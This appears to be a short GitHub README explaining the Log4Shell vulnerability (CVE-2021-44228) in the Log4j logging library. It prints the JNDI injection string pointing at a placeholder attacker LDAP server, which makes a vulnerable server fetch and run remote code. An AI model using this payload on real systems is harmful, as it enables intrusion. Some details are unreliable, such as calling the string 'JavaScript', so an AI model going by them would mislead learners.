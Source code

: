 __CVE ID:__ CVE-2021-44228
__Affected software__ - Java
__Used in -__ Minecraft hack

### What is it ?

Log4j is a Java library used to log messages within software and has the ability to communicate with other services on a system. This communication functionality is where the vulnerability exists, **providing an opening for an attacker to inject malicious code into the logs so it can be executed on the system**.

### What does it log ?

- Messages
- Bugs
- Input commands
- Information for calculating usage data
- Information for debugging 

### How does it work ?

- The attacker setups LDAP (Lightweight Directory Access Protocol) server containing malicious payload.
- The attacker then inputs malicious JavaScript code into an input field inside the target application.

```
${jndi:ldap://attacker_server:1389/payload}
```

- The inputted code then gets sent to the logs of the server, and rather then the server parsing it as text and just logging it, it evaluates the code.
- The code then instructs `jndi`  to fetch and run a malicious payload hosted by the attacker in a remote `ldap` server. 
- The executed payload can then be used to get remote access to the target or run arbitrary code in the target depending on the payload code.  
### How does the code work ?

1. `${}`: Placeholder for the actual Log4j expression. 

2. `jndi`: This part specifies that a JNDI lookup is being performed. JNDI is a Java API for accessing directory and naming services, and it can be used to look up resources and execute commands.

3. `ldap://attacker_server:1389/payload`: This is the JNDI URL that points to an LDAP server controlled by an attacker. 

   - `ldap://`: This indicates that the protocol being used is LDAP, which is a commonly used protocol for accessing directory services.
   
   - `attacker_server`: This is the hostname or IP address of the attacker's server. 

   - `1389`: This is the port number on which the attacker's LDAP server is listening. 

   - `/payload`: This part is specific to the attacker's payload. The payload is where the attacker can potentially execute arbitrary code on the target system.

*The server in which the payload is being hosted does not necessarily have to be a LDAP server, it can be a SSH or a regular web server.*